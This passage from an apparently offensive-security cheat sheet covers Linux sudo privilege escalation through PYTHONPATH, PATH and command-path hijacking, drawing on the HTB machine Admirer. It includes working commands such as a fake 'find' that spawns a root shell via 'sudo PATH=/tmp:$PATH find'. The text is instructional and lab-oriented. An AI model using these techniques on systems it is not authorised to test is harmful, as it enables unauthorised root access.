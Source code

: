 ```bash
```
{% endtab %}

{% tab title="Exploit" %}
The previous example, **based on HTB machine Admirer**, was **vulnerable** to **PYTHONPATH hijacking** to load an arbitrary python library while executing the script as root:

<pre class="language-bash"><code class="lang-bash"><strong>#Sudo with modified PYTHONPATH
</strong><strong>sudo PYTHONPATH=/dev/shm/ /opt/scripts/admin_tasks.sh
</strong></code></pre>

Or, you can set the **PATH** env variable if you can sudo on a binary without the full command path specified.

```bash
#Create a malicious find executable
echo '/bin/bash -p' > /tmp/find
chmod +x /tmp/find

#Sudo with modified PATH
sudo PATH=/tmp:$PATH find
```
{% endtab %}
{% endtabs %}

### Command Path Hijacking <a href="#command-path-hijacking" id="command-path-hijacking"></a>

{% tabs %}
{% tab title="Enumerate" %}
If we can execute some command as root but **`env_reset`** and **`secure_path`** are set, we cannot override the **PATH** environment variable.

Instead we need to check if we have permission to write each path if a the sudo binary is specified **without the full command path**.

```bash
$ sudo -l

env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User demo may run the following commands on crashlab:
    (root) python /home/user/example.py

```
{% endtab %}

{% tab title="Exploit" %}
We need to check if we have permission to write each path.

```bash
ls -al /usr/local/
ls -al /usr/
ls -al /
```

Assume we can write an arbitrary binary file under **`/usr/sbin`**, we can create a payload in there. For example, we create a **`python`** binary under **`/usr/sbin`**.
